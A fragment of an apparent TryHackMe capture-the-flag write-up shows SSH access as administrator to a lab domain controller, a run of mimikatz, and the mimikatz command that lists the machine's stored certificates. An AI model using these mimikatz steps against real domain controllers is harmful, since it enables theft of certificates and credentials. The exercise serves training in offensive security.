 		```
		ssh administrator@za.tryhackme.loc@thmdc.za.tryhackme.loc
		```

		![task4-ssh](./images/task4-ssh.png)

	* Create personal directory and run mimikatz
	
		```
		mkdir kakakseram
		cd kakakseram
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe
		```

		![task4-mimikatz](./images/task4-mimikatz.png)

	* Try to view the certificates stored on the DC
	
		```
		crypto::certificates /systemstore:local_machine
		```

		![task4-certificate](./images/task4-certificate.png)
